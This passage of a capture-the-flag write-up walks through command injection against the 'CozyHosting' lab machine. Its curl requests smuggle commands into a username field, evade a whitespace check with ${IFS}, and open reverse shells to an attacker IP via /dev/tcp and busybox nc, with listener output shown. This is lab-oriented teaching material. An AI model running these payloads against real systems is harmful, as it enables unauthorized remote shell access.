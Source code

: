 ```
$curl 'http://cozyhosting.htb/executessh' -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d 'host=cozyhosting.htb&username=kanderson;' -v 2> >( grep Location )
< Location: http://cozyhosting.htb/admin?error=ssh: Could not resolve hostname kanderson: Temporary failure in name resolution/bin/bash: line 1: @cozyhosting.htb: command not found
```
This time, we got an ssh error and a bash error. It seems that ssh try to connect to `kanderson` which is the username, and try to run the bash command `@cozyhosting.htb` which is the hostname preceeded by an `@`. We can suppose that the command that is executed has the following format: `ssh <username>@<hostname>`. To check that, let's try to craft the command `ssh kanderson;id;@cozyhosting.htb` in order to get the command `id` executed:
```
$curl 'http://cozyhosting.htb/executessh' -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d 'host=cozyhosting.htb&username=kanderson;id;' -v 2> >( grep Location )
< Location: http://cozyhosting.htb/admin?error=ssh: Could not resolve hostname kanderson: Temporary failure in name resolution/bin/bash: line 1: @cozyhosting.htb: command not found
```
Unfortunately, the result is the same as before. Does that mean that the command has not been executed? Let's try to run a reverse shell to check that. On my host, I will run `nc -lvnp 4444` and I will send the command of a reverse shell: `sh -i >& /dev/tcp/10.10.14.109/4444 0>&1`. Before that, I should take care that the string is URL encoded, because it contains `&` that should not be confused with the ones separating the HTTP parameters:
```
$curl 'http://cozyhosting.htb/executessh' -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d 'host=cozyhosting.htb&username=kanderson;sh -i >%26 /dev/tcp/10.10.14.109/4444 0>%261;' -v 2> >( grep Location )
< Location: http://cozyhosting.htb/admin?error=Username can't contain whitespaces!
```
Unfortunately, it seems there is a verification of the `username` parameter. It should not contain whitespace. It is not an issue because we can write shell commands without spaces by replacing them by `${IFS}`. Let's try again:
```
$curl 'http://cozyhosting.htb/executessh' -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d 'host=cozyhosting.htb&username=kanderson;sh${IFS}-i${IFS}>%26${IFS}/dev/tcp/10.10.14.109/4444${IFS}0>%261;' -v  2> >( grep Location )
< Location: http://cozyhosting.htb/admin?error=ssh: Could not resolve hostname kanderson: Temporary failure in name resolution/bin/bash: line 1: ${IFS}/dev/tcp/10.10.14.109/4444${IFS}0: ambiguous redirect/bin/bash: line 1: @cozyhosting.htb: command not found
```
This time, we have an error from the bash: "/bin/bash: line 1: ${IFS}/dev/tcp/10.10.14.109/4444${IFS}0: ambiguous redirect". It seems that the redirection is not correctly understood by bash because of the `${IFS}`. Let's try another reverse shell that does not contains any redirection, like `busybox nc 10.10.14.109 4444 -e sh`:
```
$curl 'http://cozyhosting.htb/executessh' -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d 'host=cozyhosting.htb&username=kanderson;busybox${IFS}nc${IFS}10.10.14.109${IFS}4444${IFS}-e${IFS}sh;' -v  2> >( grep Location )
```
This time, it works! I have my reverse shell:
```
$nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.109] from (UNKNOWN) [10.129.229.88] 42282
id
uid=1001(app) gid=1001(app) groups=1001(app)
hostname
cozyhosting
```
I can start to look for the flag after setting a better shell with `python3 -c 'import pty; pty.spawn("/bin/bash")'`.
## Target machine enumeration
First of all, let's look at the flag which is generally located in the home folder of one of the users of the machine:
```
app@cozyhosting:/app$ ls -l /home
```